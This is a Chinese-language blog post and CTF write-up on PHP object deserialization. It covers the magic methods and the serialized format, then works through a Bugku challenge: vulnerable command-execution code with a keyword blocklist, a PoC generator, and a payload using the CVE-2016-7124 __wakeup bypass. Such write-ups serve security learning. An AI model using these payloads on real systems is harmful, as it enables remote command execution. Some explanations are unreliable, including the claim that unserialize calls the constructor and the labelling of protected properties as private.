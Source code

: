 ```yaml
---
title: PHP 反序列化
date: 2021-07-08 17:08:50
description: 
categories:
  - Pentest
tags:
  - 反序列化
---
```


### 0x01 php 中的魔法函数
__construct()：PHP 中类的构造函数，创建对象时调用。具有构造函数的类会在每次创建新对象时先调用此方法，所以非常适合在使用对象之前做一些初始化工作。

__destruct()：PHP 中类的析构函数，销毁对象时调用。PHP 5 后引入了析构函数的概念，析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。

__toString() 当一个对象被当作一个字符串使用。

__sleep() 在对象在被序列化之前被调用。

__wakeup 将在序列化之后立即被调用。

### 0x02 序列化和反序列化
serialize() 会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会在 __construct 后被调用，然后才执行序列化操作。

unserialize() 会检查类中是否存在一个 __wakeup() 方法。如果存在，则会在 __destruct 前调用 __wakeup 方法，预先准备对象需要的资源。

### 0x03 序列化字符串格式
在 PHP 序列化得到的字符串中，字段根据长度判断内容、以 ; 作为字段的分隔、以 } 作为结尾(字符串除外)
```php
O:3:"ctf":2:{s:11:"username";s:5:"admin";s:6:"cmd";s:2:"ls";}

O 代表对象，因为我们序列化的是一个对象，序列化数组则用 A 来表示
3 代表类名长度 
ctf 是类名
2 代表两个属性

s 代表字符串
11 代表属性名长度
username 是属性名
s:5:"admin" 属性值时字符串 属性值长度 属性值
```

### 0x04 序列化中的访问控制修饰符
需要<f>注意</f>的是当访问控制符为 private 与 protect 时，序列化时比较特殊：

protected 属性被序列化的时候属性值会变成：%00\*%00 属性名

private 属性被序列化的时候属性值会变成：%00类名%00 属性名

### 0x05 题目
Bugku CTF 的题 index.php
```php
<?php 
header("Content-Type: text/html;charset=utf-8");
error_reporting(0);
echo "<!-- YmFja3Vwcw== -->";
class ctf {
    protected $username = 'hack';
    protected $cmd = 'NULL';
    public function __construct($username, $cmd) {
        $this->username = $username;
        $this->cmd = $cmd;
    }
    function __wakeup() {
        $this->username = 'guest';
    }

    function __destruct() {
        if(preg_match("/cat|more|tail|less|head|curl|sort|echo/i", $this->cmd)) {
            exit('</br>flag能让你这么容易拿到吗？<br>');
        }
        if ($this->username === 'admin') {
           // echo "<br>right!<br>";
            $a = `$this->cmd`;
            var_dump($a);
        } else {
            echo "</br>给你个安慰奖吧，hhh！</br>";
            die();
        }
    }
}

$select = $_GET['code'];
$res = unserialize(@$select);
?>
```

### 0x06 构造 poc
题目中当 \$this->username 为 admin 时才执行命令 \`$this->cmd`

所以我们需要设置 username 为 admin，同时给 cmd 设置值

poc.php
```php
<?php
class ctf {
    protected $username;
    protected $cmd;
    public function __construct($username, $cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
}

$cmd = $_GET["cmd"]?$_GET['cmd']:"ls";
$code = serialize(new ctf('admin', $cmd));
echo $code;
?>
```
输出：O:3:"ctf":2:{s:11:"\*username";s:5:"admin";s:6:"\*cmd";s:2:"ls";}

因为访问控制符为 private，所以 poc 需要改为：

```php
<?php
class ctf {
    protected $username;
    protected $cmd;
    public function __construct($username, $cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
}

$cmd = $_GET["cmd"]?$_GET['cmd']:"ls";
$code = serialize(new ctf('admin', $cmd));
echo str_replace("*", "%00*%00", $code);
?>
```

输出：O:3:"ctf":2:{s:11:"%00\*%00username";s:5:"admin";s:6:"%00\*%00cmd";s:2:"ls";}

当题目中的代码反序列化我们提交的 code 参数(序列化后的字符串，其实是类) 时，类会先调用构造函数 __construct，从而设置 username 为 admin、cmd 为 ls

结束时我们的类调用析构函数 __destruct 时，$this->username === 'admin' 就会为 true

因为 unserialize() 在执行时会检查是否存在 __wakeup() 方法，题目中显然是存在的，所以执行完 __construct 后会再执行 __wakeup，那 $this->username 会再次被赋值为 'guest'，这里将变量个数修改为大于实际值的数就能够绕过(CVE-2016-7124)，所以最终 poc 为：
`O:3:"ctf":<f>5</f>:{s:11:"%00\*%00username";s:5:"admin";s:6:"%00\*%00cmd";s:2:"ls";}`

### 0x07 利用
每次本地访问 poc.php?cmd=whoami、poc.php?cmd=ls 生成对应的 poc

然后访问 index.php?code=O:3:"ctf":2:{xxxxxxxxxx} 即可

